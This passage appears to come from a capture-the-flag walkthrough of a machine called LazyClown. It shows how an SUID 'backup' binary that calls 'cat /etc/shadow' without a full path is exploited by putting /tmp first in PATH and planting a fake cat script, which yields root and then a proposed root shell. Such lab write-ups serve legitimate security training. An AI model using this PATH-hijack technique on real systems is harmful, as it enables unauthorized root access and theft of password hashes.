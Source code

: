     
    
    mitsos@LazyClown:~$ ltrace ./backup 
    __libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
    system("cat /etc/shadow"cat: /etc/shadow: Permission denied
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                       = 256
    +++ exited (status 0) +++
    

The first thing it does in `main` is call `system("cat /etc/shadow")`. This
gets permissions denied because `ltrace` drops permissions on SUID binaries,
so it’s not actually running as root, but it would be outside of `ltrace`.

### Path Hijack

The vulnerability here is that `cat` is called without a full path, which
means that the shell is looking at each directory in the `$PATH` environment
variable for an executable named `cat` until it finds one, and then runs it.
By default, `$PATH` is:

    
    
    mitsos@LazyClown:~$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    

But I can change the path to add `/tmp` at the front of the list:

    
    
    mitsos@LazyClown:~$ PATH=/tmp:$PATH
    mitsos@LazyClown:~$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    

Now `/tmp` will be the first directory checked.

I’ll drop a simple script into `/tmp/cat`. For demonstration, I’ll have it run
`id`:

    
    
    #!/bin/sh
    
    id
    

Now when I run `./backup`, it runs my `cat`, which prints the `id` which shows
an effective user id of root:

    
    
    mitsos@LazyClown:~$ ./backup 
    uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)
    

I can simply replace `id` with `/bin/sh`:

    
    